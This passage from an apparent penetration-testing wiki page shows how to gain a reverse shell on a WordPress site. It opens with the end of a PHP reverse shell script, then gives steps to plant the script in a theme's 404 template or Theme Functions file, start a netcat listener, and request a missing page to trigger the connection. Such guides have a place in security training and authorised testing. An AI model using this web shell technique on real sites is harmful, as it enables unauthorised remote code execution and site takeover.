 ```php
      $input = fread($pipes[2], $chunk_size);
      if ($debug) printit("STDERR: $input");
      fwrite($sock, $input);
    }
  }

  fclose($sock);
  fclose($pipes[0]);
  fclose($pipes[1]);
  fclose($pipes[2]);
  proc_close($process);

  // Like print, but does nothing if we've daemonised ourself
  // (I can't figure out how to redirect STDOUT like a proper daemon)
  function printit ($string) {
    if (!$daemon) {
      print "$string
";
    }
  }  
```
{% endcode %}

{% hint style="info" %}
Remember to specify host machine IP and port on lines 6 and 7
{% endhint %}

***

* Click on _Update File_ button, go to _Appareance>Themes_ and activate the theme that have been modified. Then create a _netcat_ listener in the host machine

{% code overflow="wrap" lineNumbers="true" %}
```bash
nc -nlvp $port #The port that has been specificated in the script
```
{% endcode %}

***

* Visit the site and search for and url that does not exist

{% code overflow="wrap" lineNumbers="true" %}
```bash
http://$URL/p=1 #This is the homepage
#This page doesn't exist
http://$URL/p=10 #This will give the shell on the host machine
```
{% endcode %}

***

{% hint style="warning" %}
All this process can also be done on Templates version 2022 or higher. Instead of modifying _404 Template_ we will modify the _Theme Functions_ file. This will give us the shell everytime we enter to a page of the web but **WILL BREAK THE SITE ENTIRELY.**
{% endhint %}
